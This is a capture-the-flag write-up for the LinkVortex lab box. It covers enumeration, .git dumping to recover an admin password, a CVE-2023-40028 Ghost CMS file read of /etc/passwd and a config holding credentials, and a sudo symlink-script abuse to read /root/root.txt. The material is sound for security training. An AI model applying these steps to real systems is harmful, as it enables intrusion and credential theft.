## Box Info

| Name                  | LinkVortex       | 
| :-------------------- | ---------------: |
| Release Date          | 7 Dic, 2024      |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-23 22:03 EST
Nmap scan report for 10.10.11.47 (10.10.11.47)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.28 seconds

```

Add domain to /etc/hosts

```
echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts
10.10.11.47 linkvortex.htb
```

https://medium.com/@zn9988/cve-2021-3271-ghost-cms-4-0-0-d174162482a4

`http://linkvortex.htb/ghost/#/signin`



### SubDomain Scan

```bash
wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --hc 400,403,404,302,301 -H "Host: FUZZ.linkvortex.htb" -u http://linkvortex.htb -t 100
```


Version from ghost and repository



We have a multiple files in .git path, we need to extract all those files with git-dumper tool.

```bash
dirsearch -u http://dev.linkvortex.htb/
```


```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt -u 'http://dev.linkvortex.htb/FUZZ' -fc 403
```




https://github.com/arthaud/git-dumper



commands we can run on the directory
```bash
git show
```

```bash
git log
```

config files



"filename": "/tmp/ghost-test.db"





https://stackoverflow.com/questions/273743/using-wget-to-recursively-fetch-a-directory-with-arbitrary-files-in-it

```bash
wget -r -np -R "index.html*" -e robots=off http://www.example.com/
```

```bash
git restore .
```

we gonna use this commit id for see what restore 



```bash
git diff 299cdb4387763f850887275a716153e84793077d
```


```bash
const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
```

`email:` admin@linkvortex.htb
`password:` OctopiFociPilfer45


Once log in as admin, now can see the directories that before i cant see



`http://linkvortex.htb/ghost/api/canary/admin/session/`


### CVE-2023-40028

```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
```

(why no user "admin"?)

```bash
curl -i -s -d username="admin" -d password="OctopiFociPilfer45" -H "Origin: http://linkvortex.htb" -H "Accept-Version: V3.0" http://linkvortex.htb/ghost/api/canary/admin/session/
```



`/etc/passwd`



```bash
root:x:0:0:root:/root:/bin/bash
node:x:1000:1000::/home/node:/bin/bash
```

Send Email with cURL

```bash
curl -i -s -d username="admin@linkvortex.htb" -d password="OctopiFociPilfer45" -H "Origin: http://linkvortex.htb" -H "Accept-Version: V3.0" http://linkvortex.htb/ghost/api/canary/admin/session/
```







```json
mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }

```

log in with ssh



#### SymLink



we need to inspect the script

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

`QUAR_DIR="/var/quarantined` Defines the path of the directory where symbolic links (symlinks) will be moved.

`CHECK_CONTENT=false` If the environment variable `CHECK_CONTENT` is not defined or is empty, it is set to `false`. This variable controls whether the content of the file pointed to by the symbolic link should be displayed.

If `CHECK_CONTENT` is `true`, the content of the file pointed to by the symbolic link is displayed.

```bash
export CHECK_CONTENT=true
```

`if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)'; then` If the link points to a critical destination (such as `etc` or `root` directories), it deletes it. Otherwise, it moves the link to a quarantine directory and, optionally, displays its content.

```bash
ln -s /root/root.txt /home/bob/a.png
```

```bash
ln -s /home/bob/a.txt /home/bob/e.png
```

```bash
sudo -u root /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/e.png
```



PWNED!